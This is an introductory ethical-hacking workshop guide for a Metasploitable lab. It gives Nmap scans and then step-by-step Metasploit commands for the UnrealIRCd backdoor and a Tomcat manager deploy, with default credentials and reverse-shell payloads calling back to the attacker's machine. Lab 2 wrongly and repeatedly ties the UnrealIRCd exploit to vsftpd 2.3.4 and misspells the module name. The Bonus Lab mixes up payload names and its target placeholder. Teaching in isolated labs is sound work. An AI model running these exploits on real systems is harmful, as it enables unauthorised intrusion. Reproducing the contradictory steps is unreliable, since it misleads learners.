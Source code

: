 # Intro to Ethical Hacking Workshop Guide

## Lab 1: Nmap

First, make sure our Metasploitable lab machine is reachable. From Kali Linux:

```
ping <metasploitable_ip>
```

Next, we'll try Nmapping this host. Run the following scan to do a basic port scan of the host.

```
sudo nmap -Pn -sS <metasploitable_ip>
```

We now have a list of ports. Let’s see if we can get a little more information about service versions.

```
sudo nmap -Pn -sS -sV <metasploitable_ip>
```

Now that we have a list of ports, and version, we notice that the FTP service vsftpd is running on port 21. Let’s check if Nmap contains any scripts to scan for vulnerabilities in this service. We’ll list the files in the directory using ls -la /usr/share/nmap/scripts and then pipe the output to “grep” to search for the string ftp, using the following command:

```
ls -la /usr/share/nmap/scripts/ | grep ftp
```

There is a script specifically for this host, called “ftp-vsftpd-backdoor.” We’ll run this script against the vulnerable host to determine if it’s vulnerable. Note that in this scan, we’re only specifying port 21 with the -p21 flag, since this is the only port we care to scan with this script.

```
sudo nmap -Pn -sS -sV -p21 --script ftp-vsftpd-backdoor <metasploitable_ip>
```

Running this nmap command should show that service is indeed vulnerable.

## Lab 2: Intro to Metasploit

Now let's try exploiting a vulnerability using Metasploit. For this exercise, we'll target the Unreal IRC server. We’ll begin by starting the Metasploit Console using the following command:

```
msfconsole
```

Once Metasploit has started, we’ll use the following command to search for a relevant exploit for the vulnerable service.

```
search unrealirc
```

After this command is completed, we should see at least one vulnerability pertaining to vsftpd. We’ll use the following command to get a little more information about the vulnerability.

```
info exploit/unix/irc/unreal_ircd_3281_backdoor
```

Running this command shows that the exploit works against vsftpd 2.3.4. If we revisit the Nmap scan results, we should see that the server is running this version. Therefore, we’ll go ahead and activate this exploit.


```
use exploit/unix/irc/unreal_ircd_3281_backdoors
```

Now that we have specified which exploit we want to use, we’ll need to set a few options for the exploit to properly work. This can be viewed using the following command:

```
show options
```

Now that we have a list of options, we see that we only need to fill in one variable. This is RHOST, since RPORT is the correct port that vsftpd is running on. We’ll set RHOST to the IP address of the Metasploitable box.

```
set RHOSTS <metasploitable_ip>
```

Finally, running an exploit without a payload is relatively useless. If we begin by typing “set payload” and the tab key a couple of times, Metasploit should autocomplete this field. We see that there is only one option. Let’s go ahead and specify that payload.

```
set payload cmd/unix/reverse
```

Next, we'll show options again to see if the payload has any options.

```
show options
```

```
set LHOST <your_kali_ip_or_hostname>
```

Everything should now be complete. Let’s type “show options” one more time to verify that there aren’t any additional payload options to specify. There shouldn’t be, so let’s go ahead and run our exploit.


```
run
```

We will see some output, and then should have a blank line. Run the following command in the blank line.

```
id
```

This should return output stating that we have an active session as the root user. Success! We’ve rooted our first box.

## Bonus Lab: More Metasploit


The next lab will be a bit more involved than the previous exercise. We first begin by revisiting our Nmap results from previously. We see that Tomcat manager is running on port 8180. We recall several incidents involving poor authentication with Tomcat manager. We’ll begin by browsing to this port within a web browser.

```
http://<meterpreter_ip>:8180
```

We should see a panel to the left of the screen. This panel should contain a link titled “Tomcat Manager." Click the “Tomcat Manager” link and insert the default username and password when prompted.

* username: tomcat
* password: tomcat

We’re now in the management panel of Tomcat. From here, we can upload any web application that we would like. We could do this manually, but Metasploit should have a module that does this automatically. Start Metasploit if it isn’t currently running.

```
msfconsole
```

Once Metasploit starts, we should search for any exploit related to tomcat.

```
search tomcat
```

After examining the results, “tomcat_mgr_deploy” sounds like it may do what we’re wanting to do. Let’s verify by using the following command:

```
info exploit/multi/http/tomcat_mgr_deploy
```

Go ahead and use this exploit, since we have verified that it will work against our target host.

```
use exploit/multi/http/tomcat_mgr_deploy
```

Now that we’ve activated this exploit, let’s examine the options available

```
show options
```

As before, we’ll set each variable to the required setting, making sure we provide the default username and password.

```
set HttpPassword tomcat
set HttpUsername tomcat
set RHOSTS <metasploitable_ip>
set RPORT 8180
set target 1
```

Now that we need to select a payload for the exploit. Hitting tab a few times reveals java/meterpreter/reverse_tcp. Since we prefer using meterpreter when possible, we’ll select this option.

```
set payload java/meterpreter/reverse_http
```

Once again, “show options” to show payload options.

```
show options
```

We’ll set the payload option to our local IP address.

```
set LHOST <kali_ip>
```

And then run the exploit.

```
run
```

Let’s examine the current UID with the following command.

```
getuid
```

We should see that our payload is running as the tomcat user. The next steps would be to find a way to elevate these permissions to root.
